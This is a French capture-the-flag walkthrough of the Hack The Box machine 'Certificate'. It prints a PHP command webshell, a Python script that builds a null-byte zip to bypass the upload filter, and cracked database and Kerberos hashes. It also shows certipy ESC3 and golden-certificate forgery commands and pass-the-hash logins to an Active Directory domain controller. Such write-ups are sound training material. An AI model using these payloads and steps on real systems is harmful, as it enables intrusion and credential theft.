**Certificate** est une machine Windows Active Directory de difficulté élevée qui commence par une plateforme d’E-learning. L’application web est vulnérable à une **injection de byte nul (Null-Byte Injection)** dans sa fonctionnalité de téléchargement de fichiers. Cela permet d’exécuter un **reverse shell PHP** pour obtenir un accès initial en tant qu’utilisateur `xamppuser`. Les identifiants de la base de données sont ensuite récupérés, ce qui permet un **mouvement latéral** vers l’utilisateur **Sara.B**. Une énumération plus poussée révèle un fichier de capture réseau qui fuite les identifiants de **Lion.SK**. Grâce à ceux-ci, les **Active Directory Certificate Services (ADCS)** sont énumérés, et un modèle vulnérable est exploité pour demander des certificats au nom d’autres utilisateurs. Un certificat pour l’utilisateur **Ryan.K** est alors obtenu. Son privilège **SeManageVolumePrivilege** est utilisé pour obtenir un shell en tant que **NT AUTHORITY\NETWORK SERVICE**. Enfin, le privilège **SeImpersonatePrivilege** permet d’escalader vers **NT AUTHORITY\SYSTEM**, de dumper les fichiers **ntds.dit** et les ruches de **registre**, et d’extraire le hash **NTLM** de l’Administrateur, offrant ainsi un accès complet en tant qu’**Administrateur**.


# Énumération
## Nmap

Le scan révèle 20 ports ouverts.
```bash
╭─root at exegol-htb in /workspace/Certificate
╰─○ nmap 10.129.232.96 --min-rate 10000 -p- -vv
Starting Nmap 7.93 ( https://nmap.org ) at 2025-07-03 20:06 CEST
--SNIP--
Completed SYN Stealth Scan at 20:07, 49.92s elapsed (65535 total ports)
Nmap scan report for 10.129.232.96
Host is up, received echo-reply ttl 127 (1.5s latency).
Scanned at 2025-07-03 20:06:41 CEST for 50s
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
80/tcp    open  http             syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49693/tcp open  unknown          syn-ack ttl 127
49694/tcp open  unknown          syn-ack ttl 127
49695/tcp open  unknown          syn-ack ttl 127
49714/tcp open  unknown          syn-ack ttl 127
49733/tcp open  unknown          syn-ack ttl 127

--SNIP--

╭─root at exegol-htb in /workspace/Certificate
╰─○ nmap 10.129.232.96 -sVC -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49693,49694,49695,49714,49733
Starting Nmap 7.93 ( https://nmap.org ) at 2025-07-03 20:14 CEST
Nmap scan report for 10.129.232.96
Host is up (0.061s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
|_http-title: Did not follow redirect to http://certificate.htb/
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-04 02:14:40Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-04T02:16:16+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certificate.htb
| Not valid before: 2024-11-04T03:14:54
|_Not valid after:  2025-11-04T03:14:54
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certificate.htb
| Not valid before: 2024-11-04T03:14:54
|_Not valid after:  2025-11-04T03:14:54
|_ssl-date: 2025-07-04T02:16:16+00:00; +8h00m00s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-04T02:16:16+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certificate.htb
| Not valid before: 2024-11-04T03:14:54
|_Not valid after:  2025-11-04T03:14:54
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certificate.htb
| Not valid before: 2024-11-04T03:14:54
|_Not valid after:  2025-11-04T03:14:54
|_ssl-date: 2025-07-04T02:16:16+00:00; +8h00m00s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49694/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49714/tcp open  msrpc         Microsoft Windows RPC
49733/tcp open  msrpc         Microsoft Windows RPC
Service Info: Hosts: certificate.htb, DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2025-07-04T02:15:36
|_  start_date: N/A
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m59s
```

J'ajoute le nom de domaine ainsi que le FQDN dans le fichier /etc/hosts.
```bash
echo "10.129.232.96 certificate.htb DC01.certificate.htb DC01" | tee -a /etc/hosts
```


## DNS - TCP 53

Rien d’intéressant en énumérant les enregistrements DNS.
```bash
╭─root at exegol-htb in /workspace/Certificate
╰─○ dig any "certificate.htb" @10.129.232.96

; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> any certificate.htb @10.129.232.96
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 10307
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 4, AUTHORITY: 0, ADDITIONAL: 3

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;certificate.htb.               IN      ANY

;; ANSWER SECTION:
certificate.htb.        600     IN      A       10.129.232.96
certificate.htb.        3600    IN      NS      dc01.certificate.htb.
certificate.htb.        3600    IN      SOA     dc01.certificate.htb. hostmaster.certificate.htb. 175 900 600 86400 3600
certificate.htb.        600     IN      AAAA    dead:beef::9f8e:1aa5:78c:4b0c

;; ADDITIONAL SECTION:
dc01.certificate.htb.   3600    IN      A       10.129.232.96
dc01.certificate.htb.   3600    IN      AAAA    dead:beef::9f8e:1aa5:78c:4b0c

;; Query time: 29 msec
;; SERVER: 10.129.232.96#53(10.129.232.96) (TCP)
;; WHEN: Thu Jul 03 20:22:44 CEST 2025
;; MSG SIZE  rcvd: 198
```


## SMB - TCP 445

Je peux m'authentifier en tant qu’anonyme mais je ne peux pas énumérer les partages.
```bash
╭─root@exegol-hackthebox /workspace/Certificate
╰─➤  nxc smb dc01.certificate.htb -u '' -p ''
SMB         10.129.97.156   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False)
SMB         10.129.97.156   445    DC01             [+] certificate.htb\:
╭─root@exegol-hackthebox /workspace/Certificate
╰─➤  nxc smb dc01.certificate.htb -u '' -p '' --shares
SMB         10.129.97.156   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False)
SMB         10.129.97.156   445    DC01             [+] certificate.htb\:
SMB         10.129.97.156   445    DC01             [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

Le compte `Guest` est désactivé.
```bash
╭─root@exegol-hackthebox /workspace/Certificate
╰─➤  nxc smb dc01.certificate.htb -u 'Guest' -p ''
SMB         10.129.97.156   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False)
SMB         10.129.97.156   445    DC01             [-] certificate.htb\Guest: STATUS_ACCOUNT_DISABLED
```


## HTTP - TCP 80
### dirseach

Je trouve plusieurs répertoires et fichiers dont des répertoires de connexion ou d'upload de fichiers.
```bash
╭─root@exegol-hackthebox /workspace/Certificate
╰─➤  gobuster dir -u http://certificate.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://certificate.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/register.php         (Status: 200) [Size: 10916]
/.html                (Status: 403) [Size: 304]
/.html.php            (Status: 403) [Size: 304]
/.htm                 (Status: 403) [Size: 304]
/login.php            (Status: 200) [Size: 9412]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/.htm.php             (Status: 403) [Size: 304]
/upload.php           (Status: 302) [Size: 0] [--> login.php]
/db.php               (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 22420]
/static               (Status: 301) [Size: 343] [--> http://certificate.htb/static/]
/about.php            (Status: 200) [Size: 14826]
/header.php           (Status: 200) [Size: 1848]
/Login.php            (Status: 200) [Size: 9412]
/webalizer            (Status: 403) [Size: 304]
/footer.php           (Status: 200) [Size: 2955]
/blog.php             (Status: 200) [Size: 21940]
/contacts.php         (Status: 200) [Size: 10605]
/phpmyadmin           (Status: 403) [Size: 423]
/.                    (Status: 200) [Size: 22420]
/.htaccess.php        (Status: 403) [Size: 304]
/.htaccess            (Status: 403) [Size: 304]
/Register.php         (Status: 200) [Size: 10916]
/examples             (Status: 503) [Size: 404]
/courses.php          (Status: 302) [Size: 0] [--> login.php]
/Logout.php           (Status: 302) [Size: 0] [--> login.php]
/Upload.php           (Status: 302) [Size: 0] [--> login.php]
```


### Create a professor account

Je crée un compte en tant que professeur.


Je me connecte et j'arrive sur une page vide. On dirait bien que je ne peux pas créer de compte en tant que professeur.



### Create a student account

Maintenant je crée un compte en tant qu'élève.


Je me connecte et j'ai bien accès aux différents cours.


Je m'enrôle dans un des cours. Un peu en bas de la page du cours, je peux soumettre les réponses du Quizz en cliquant sur le bouton `submit`.


Je suis alors redirigé vers la page `upload.php`.


Je vois que seuls les fichiers `pdf`,`docx`,`pptx` et `xlsx` sont acceptés, mais qu'il faut les zipper avant l'envoi.


Lorsque l'upload est réussi, je reçois un lien vers l'emplacement du fichier.


J'y accède et je vois le contenu du fichier uploadé.



# Reverse shell as xamppuser
## PHP Null-Byte Injection

Voyant qu'il est possible d'uploader un fichier `zip`, je recherche sur google `zip file upload vulnerability`, et je trouve la vulnérabilité `Null-Byte Injection`. Avec l'aide de Claude, je créé un script Python, me permettant d'automatiser la création de cette archive malveillante.

Créer un fichier `rv.php` avec le webshell suivant :
```php
<?php
    if(isset($_REQUEST['cmd']))
    {
        system($_REQUEST['cmd'] . ' 2>&1');
    }
?>
```

Je zippe le fichier `rv.php` en `rv.zip`
```shell
zip rv.zip rv.php
```

Puis j’exécute le script Python suivant :
```python
import zipfile
import os

zip_path = 'rv.zip'
new_zip_path = 'rv2.zip'
old_filename = 'rv.php'
new_filename = 'rv.php\x00.pdf'

with zipfile.ZipFile(zip_path, 'r') as zip_read:
    with zipfile.ZipFile(new_zip_path, 'w') as zip_write:
        for item in zip_read.infolist():
            original_data = zip_read.read(item.filename)
            # Rename the target file
            if item.filename == old_filename:
                item.filename = new_filename
            zip_write.writestr(item, original_data)

print(f'Renamed {old_filename} to {new_filename} inside {new_zip_path}')
```

Enfin j'uploade l'archive malveillante `rv2.zip`. Je me rends alors vers le lien où se trouve le fichier `rv.php`. Je peux alors exécuter des commandes PowerShell.


J'utilise une commande PowerShell reverse shell.


J'obtiens un shell en tant que `xamppuser`.



# Shell as Sara.B
## MySQL





```powershell
PS C:\xampp\mysql\bin> ./mysql -u certificate_webapp_user -p"cert!f!c@teDBPWD" -e "use Certificate_WEBAPP_DB; select username,email,password,role from users;" -E
*************************** 1. row ***************************
username: Lorra.AAA
   email: lorra.aaa@certificate.htb
password: $2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG
    role: teacher
*************************** 2. row ***************************
username: Sara1200
   email: sara1200@gmail.com
password: $2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK
    role: teacher
*************************** 3. row ***************************
username: Johney
   email: johny009@mail.com
password: $2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq
    role: student
*************************** 4. row ***************************
username: havokww
   email: havokww@hotmail.com
password: $2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti
    role: teacher
*************************** 5. row ***************************
username: stev
   email: steven@yahoo.com
password: $2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2
    role: student
*************************** 6. row ***************************
username: sara.b
   email: sara.b@certificate.htb
password: $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6
    role: admin
*************************** 7. row ***************************
username: coolname
   email: testa2@test.com
password: $2y$04$ypZ4YwdyFRAjDsQUl.xVU.LWvD8WWkhisqmuz68eYvDJAF3bWumKm
    role: teacher
*************************** 8. row ***************************
username: hello
   email: world@hello.net
password: $2y$04$m6BH0ErzFpXm9UtopHCt.eB8jnTGylbxkzf7KuONoQjc61TkECei.
    role: student
*************************** 9. row ***************************
username: z3rodol
   email: z3rodol@certificate.htb
password: $2y$04$89GB.ZCVzdhLV5yqoHusrO0sZcHFx89tZIHxEHsdr9RA0BTMUxl5y
    role: student
*************************** 10. row ***************************
username: test
   email: test@test.test
password: $2y$04$UM7FLpFv/qffHeuHhHG3wOCDvX2ChXmjB9bYf3X2Khjg7TJQAj4l6
    role: student
```


Je craque le hash de `sara.b` et je trouve le mot de passe `Blink182`.
```shell
john --wordlist=`fzf-wordlists` sara.b.hash
```


Je teste le mot de passe sur les autres utilisateurs du domaine. Mais aucun autre n'utilise ce mot de passe.
```shell
nxc smb dc01.certificate.htb -u users.lst -p pass.lst --continue-on-success
```



## BloodHound

Je récolte avec Bloodhound, les relations entres les objets du domaine.
```shell
 nxc ldap dc01.certificate.htb -u Sara.B -p Blink182 --bloodhound -c All --dns-server 10.10.11.71
```



Je vois que Sara.B est membre du groupe `Remote Management Users`.



## Evil-WinRm

Je me connecte en tant que Sara.B.
```shell
evil-winrm -i 10.10.11.71 -u sara.b -p Blink182
```



# Shell as Lion.Sk

Dans le répertoire `Documents` de `lion.sk`, il y a une fichier `TXT` et un fichier `PCAP`.


D'après la description, les utilisateurs saisissent des identifiants valides et Explorer se bloque, le PCAP contient probablement des requêtes Kerberos.



## Analyse the PCAP file

J'ouvre le fichier `PCAP`, et il y a beaucoup de protocoles, `ARP`, `TCP`, `SMBv2`, `DNS`.


J'ai d'abord utilisé l'outils [pCredz](https://github.com/lgandx/PCredz) pour extraire les identifiants du fichier. J'ai alors trouve un hash soit disant appartenant à l'administrateur, mais je n'ai pas réussi à le craquer.
```shell
PCredz -f WS-01_PktMon.pcap
```


Je vois aussi qu'il y a des requêtes `AS_REQ` Kerberos.


J'utilise donc `Krb5RoastParser`, l'outils de [jalvarezz13](https://github.com/jalvarezz13/Krb5RoastParser).
```shell
[root@exegol-htb] /workspace/Certificate
❯ git clone https://github.com/jalvarezz13/Krb5RoastParser.git
Cloning into 'Krb5RoastParser'...
remote: Enumerating objects: 15, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (11/11), done.
remote: Total 15 (delta 6), reused 10 (delta 4), pack-reused 0 (from 0)
Receiving objects: 100% (15/15), 6.52 KiB | 667.00 KiB/s, done.
Resolving deltas: 100% (6/6), done.

[root@exegol-htb] /workspace/Certificate
❯ python3 Krb5RoastParser/krb5_roast_parser.py WS-01_PktMon.pcap as_req > as_req.hash                                                 ⏎

[root@exegol-htb] /workspace/Certificate
❯ cat as_req.hash
$krb5pa$18$Lion.SK$CERTIFICATE$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0
```

Sur [hashcat wiki](https://hashcat.net/wiki/doku.php?id=example_hashes), je vois que le mode pour craquer ce hash est le `19900`.


Je craque le hash et je trouve le mot de passe `!QAZ2wsx`.
```shell
hashcat --hash-type 19900 --attack-mode 0 as_req.hash /opt/rockyou.txt
```

Le mot de passe est valide.
```shell
nxc smb dc01.certificate.htb -u lion.sk -p '!QAZ2wsx'
```



Lion.Sk est membre du groupe `Remote Management Users`. Donc on peut avoir une shell avec lui. Il est aussi membre du groupe `Domain CRA Managers`. Il peut donc gérer les certificats du domaine.



## Evil-WinRM

Je me connecte à la machine.
```shell
evil-winrm -i 10.10.11.71 -u lion.sk -p '!QAZ2wsx'
```



# Shell as Ryan.K
## ESC3

Avec `certipy`, j’énumère les templates vulnérables et je trouve que le template `Delegated-CRA` est vulnérable à une `ESC3`.
```shell
[root@exegol-htb] /workspace/Certificate
❯ certipy find -target dc01.certificate.htb -u "lion.sk" -p '!QAZ2wsx' -vulnerable -stdout                                            ⏎
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'Certificate-LTD-CA' via CSRA
[!] Got error while trying to get CA configuration for 'Certificate-LTD-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'Certificate-LTD-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'Certificate-LTD-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : Certificate-LTD-CA
    DNS Name                            : DC01.certificate.htb
    Certificate Subject                 : CN=Certificate-LTD-CA, DC=certificate, DC=htb
    Certificate Serial Number           : 75B2F4BBF31F108945147B466131BDCA
    Certificate Validity Start          : 2024-11-03 22:55:09+00:00
    Certificate Validity End            : 2034-11-03 23:05:09+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CERTIFICATE.HTB\Administrators
      Access Rights
        ManageCertificates              : CERTIFICATE.HTB\Administrators
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        ManageCa                        : CERTIFICATE.HTB\Administrators
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Enroll                          : CERTIFICATE.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : Delegated-CRA
    Display Name                        : Delegated-CRA
    Certificate Authorities             : Certificate-LTD-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : True
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectRequireEmail
                                          SubjectAltRequireEmail
                                          SubjectAltRequireUpn
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Certificate Request Agent
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFICATE.HTB\Domain CRA Managers
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFICATE.HTB\Administrator
        Write Owner Principals          : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
                                          CERTIFICATE.HTB\Administrator
        Write Dacl Principals           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
                                          CERTIFICATE.HTB\Administrator
        Write Property Principals       : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
                                          CERTIFICATE.HTB\Administrator
    [!] Vulnerabilities
      ESC3                              : 'CERTIFICATE.HTB\\Domain CRA Managers' can enroll and template has Certificate Request Agent EKU set
```

Je demande un certificat pour `Lion.Sk`.
```shell
certipy req \
    -u 'lion.sk@certificate.htb' -p '!QAZ2wsx' \
    -dc-ip '10.10.11.71' -target 'dc01.certificate.htb' \
    -ca 'Certificate-LTD-CA' -template 'Delegated-CRA'
```


Je vois que l'utilisateur Ryan.K est membre du groupe Domain Storage Managers, donc il y a de grande chances qu'il est un accès à l'ensemble répertoires.


Donc je demande un certificat au nom de Ryan.K.
```shell
certipy req \
    -u 'lion.sk@certificate.htb' -p '!QAZ2wsx' \
    -dc-ip '10.10.11.71' -target 'dc01.certificate.htb' \
    -ca 'Certificate-LTD-CA' -template 'SignedUser' \
    -pfx 'lion.sk.pfx' -on-behalf-of 'certificate\ryan.k'
```


Je me connecte avec ce certificat et j'obtiens le hash NTLM de Ryan.K.
```shell
certipy auth -pfx 'ryan.k.pfx' -dc-ip '10.10.11.71'
```



## Evil-WinRM

J'obtiens alors un shell.
```shell
evil-winrm -i 10.10.11.71 -u ryan.k -H b1bc3d70e70f4f36b1509a65ae1a2ae6
```



# Shell as Administrator
## SeManageVolumePrivilege

Je vois que Ryan.K dispose du privilege `SeManageVolumePrivilege`. Cela peut être abusé pour avoir un control total du répertoire `C:\` permettant la lecture et l’écriture de n'importe qu'elle fichier.



Après quelques recherches, je vois qu'on peut exploiter ce droit en utilisant l'exécutable `SeManageVolumeExploit.exe` de [CsEnox](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public).


Apres exécution du binaire, je peux accéder au répertoire `C:\Users\Adminstrator\Desktop` sauf que je ne peux tout de même pas lire le contenu du fichier `root.txt`.


## Golden Certificate

Maintenant que j'ai accès à tous les repertoires, nous pouvons réaliser une attaque Golden Certificate. Pour cela j'exporte la clé privée l'autorité de certification (CA). `75B2F4BBF31F108945147B466131BDCA` est le numéro de série du CA.
```powershell
*Evil-WinRM* PS C:\programdata> certutil -exportpfx 75B2F4BBF31F108945147B466131BDCA .\ca.pfx
MY "Personal"
================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file .\ca.pfx:
Enter new password:
Confirm new password:
CertUtil: -exportPFX command completed successfully.
*Evil-WinRM* PS C:\programdata> download ca.pfx

Warning: Remember that in docker environment all local paths should be at /data and it must be mapped correctly as a volume on docker run command

Info: Downloading C:\programdata\ca.pfx to ca.pfx

Info: Download successful!
*Evil-WinRM* PS C:\programdata>
```

Avec ce certificat, je peux forger un certificat valide pour l'administrateur.
```shell
certipy forge -ca-pfx ca.pfx -upn 'administrator@certificate.htb' -out forged.pfx
```


Je m'authentifie avec ce dernier et j'obtiens le hash de l'administrateur.
```shell
certipy auth -dc-ip '10.10.11.71' -pfx 'forged.pfx' -username 'administrator' -domain 'certificate.htb'
```



## Evil-WinRM

J'obtiens alors un shell.
```shell
evil-winrm -i 10.10.11.71 -u administrator -H d804304519bf0143c14cbf1c024408c6
```

